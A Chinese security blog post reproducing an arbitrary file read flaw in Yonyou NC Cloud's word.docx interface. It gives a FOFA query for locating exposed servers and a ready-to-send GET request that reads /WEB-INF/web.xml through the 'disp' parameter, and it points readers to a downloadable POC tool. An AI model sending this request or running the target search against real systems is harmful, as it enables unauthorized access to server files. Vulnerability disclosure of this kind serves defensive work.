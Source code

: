 #  用友NC word.docx接口存在任意文件读取漏洞 附POC   
原创 南风徐来  南风漏洞复现文库   2023-11-25 22:36  
  
@[toc]  
# 用友NC word.docx接口存在任意文件读取漏洞 附POC  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友NC 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友 NC Cloud，大型企业数字化平台， 聚焦数字化管理、数字化经营、数字化商业，帮助大型企业实现 人、财、物、客的全面数字化，从而驱动业务创新与管理变革，与企业管理者一起重新定义未来的高度。为客户提供面向大型企业集团、制造业、消费品、建筑、房地产、金融保险等14个行业大类，68个细分行业，涵盖数字营销、智能制造、财务共享、数字采购等18大解决方案，帮助企业全面落地数字化。  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
用友 NC Cloud，大型企业数字化平台， 聚焦数字化管理、数字化经营、数字化商业，帮助大型企业实现 人、财、物、客的全面数字化，从而驱动业务创新与管理变革，与企业管理者一起重新定义未来的高度。为客户提供面向大型企业集团、制造业、消费品、建筑、房地产、金融保险等14个行业大类，68个细分行业，涵盖数字营销、智能制造、财务共享、数字采购等18大解决方案，帮助企业全面落地数字化。用友NC Cloud word.docx接口存在任意文件读取漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友NC Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3adbAtv437c8pYANkzQmQdt7LrK8yQL7sIHfX41Mu7zEDobf9RsVu3IUj5ydg3Rh10USdj08oMp8Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
用友NC word.docx接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="UClient.dmg"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/portal/docctr/open/word.docx?disp=/WEB-INF/web.xml  
  
漏洞数据包：  
```
GET /portal/docctr/open/word.docx?disp=/WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3adbAtv437c8pYANkzQmQdtGPudeZdupIWYrnwwiclaUWRURIM4CKH8r9KiahtPpNxs53zKJxIFSpRg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3adbAtv437c8pYANkzQmQdtxOwsFrmKibafsM6ad1VmM7GicJSv8h4X99Uhs204HU9OeeDybbOYX8ew/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现84 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3adbAtv437c8pYANkzQmQdt3WatEEicJuasDTiae5fXb8okdgicPcY1Uo6emjaZnWUqaoMEBL41JvcIw/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3adbAtv437c8pYANkzQmQdt4SqPnQVhQ8Ajroiavq1dGVWwzIOMEq2IoBfeksM5THTMV0F8MVxKr7g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3adbAtv437c8pYANkzQmQdt95SyZia80acYibOibO3lf517ONibib8QvDzjQEabunRTBsYjPOIIh0cyP6Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3adbAtv437c8pYANkzQmQdtRvLre3iaF7sK8jZyuUaZWTXrH0gXS2D60pcumez5203GsvvytRDFgNw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新： https://www.yonyou.com/  
## 8.往期回顾  
  
[亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484633&idx=1&sn=564b1d5a595d7361fd8bdc358266e647&chksm=974b89dea03c00c83d2194779fdf96bd3a770825c66316a4ddfdbf1a16869543cd3ccef6fb1f&scene=21#wechat_redirect)  
  
  
[鸿运主动安全监控云平台存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484618&idx=1&sn=d6afb834049f84a076ae1e3ce9acbfeb&chksm=974b89cda03c00db68ac96ec70e3b01776af8c3e93a4291da32bcfe22393e8b993a9abe87007&scene=21#wechat_redirect)  
  
  
  
  
